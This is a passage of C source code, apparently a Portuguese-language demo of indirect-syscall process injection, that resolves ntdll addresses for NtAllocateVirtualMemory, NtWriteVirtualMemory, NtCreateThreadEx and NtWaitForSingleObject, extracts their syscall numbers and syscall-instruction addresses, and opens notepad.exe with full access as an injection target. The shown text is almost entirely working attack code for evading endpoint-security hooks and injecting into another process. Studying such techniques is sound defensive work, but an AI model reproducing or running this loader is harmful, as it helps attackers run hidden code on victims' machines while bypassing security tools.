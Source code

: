 ```c
	}
	SSNtAllocateVirtualMemory = ((unsigned char*)(pNtAllocateVirtualMemory + 4))[0];
	AddrNtAllocateVirtualMemory = pNtAllocateVirtualMemory + 0x12;
	printAddressLetterByLetter("NtAllocateVirtualMemory", pNtAllocateVirtualMemory, pNtAllocateVirtualMemory + 0x12);

	UINT_PTR pNtWriteVirtualMemory = (UINT_PTR)GetProcAddress(GetModuleHandleA(n_dll_name), NotNtWriteVirtualMemoryName);
	if (pNtWriteVirtualMemory == 0) {
		SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
		fprintf(stderr, "\nErro: Nao foi possivel encontrar o endereco de NtWriteVirtualMemory\n");
		return 1;
	}
	SSNtWriteVirtualMemory = ((unsigned char*)(pNtWriteVirtualMemory + 4))[0];
	AddrNtWriteVirtualMemory = pNtWriteVirtualMemory + 0x12;
	printAddressLetterByLetter("NtWriteVirtualMemory", pNtWriteVirtualMemory, pNtWriteVirtualMemory + 0x12);

	UINT_PTR pNtCreateThreadEx = (UINT_PTR)GetProcAddress(GetModuleHandleA(n_dll_name), NotNtCreateThreadExName);
	if (pNtCreateThreadEx == 0) {
		SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
		fprintf(stderr, "\nErro: Nao foi possivel encontrar o endereco de NtCreateThreadEx\n");
		return 1;
	}
	SSNtCreateThreadEx = ((unsigned char*)(pNtCreateThreadEx + 4))[0];
	AddrNtCreateThreadEx = pNtCreateThreadEx + 0x12;
	printAddressLetterByLetter("NtCreateThreadEx", pNtCreateThreadEx, pNtCreateThreadEx + 0x12);

	UINT_PTR pNtWaitForSingleObject = (UINT_PTR)GetProcAddress(GetModuleHandleA(n_dll_name), NotNtWaitForSingleObjectName);
	if (pNtWaitForSingleObject == 0) {
		SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
		fprintf(stderr, "\nErro: Nao foi possivel encontrar o endereco de NtWaitForSingleObject\n");
		return 1;
	}
	SSNtWaitForSingleObject = ((unsigned char*)(pNtWaitForSingleObject + 4))[0];
	AddrNtWaitForSingleObject = pNtWaitForSingleObject + 0x12;
	printAddressLetterByLetter("NtWaitForSingleObject", pNtWaitForSingleObject, pNtWaitForSingleObject + 0x12);

	const wchar_t* processName = L"notepad.exe";
	DWORD pid = GetProcessIdByName(processName);

	HANDLE hProcess;
	CLIENT_ID clientId = { 0 };
	clientId.UniqueProcess = (HANDLE)pid;
	clientId.UniqueThread = NULL;

	OBJECT_ATTRIBUTES objAttr;
	InitializeObjectAttributes(&objAttr, NULL, 0, NULL, NULL);
	SetConsoleColor(FOREGROUND_GREEN | FOREGROUND_INTENSITY);
	printf("\n[*] Pressione Enter para abrir processo alvo");
	(void)getchar();
	SetConsoleColor(FOREGROUND_BLUE | FOREGROUND_INTENSITY);
	printf("[!] Abrindo Processo Alvo Com NtOpenProcess");

	NTSTATUS status = NtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &objAttr, &clientId);
	if (!NT_SUCCESS(status)) {
		SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
		fprintf(stderr, "\nFalha ao abrir o processo de destino NTSTATUS: 0x%08X\n", status);
		return 1;
```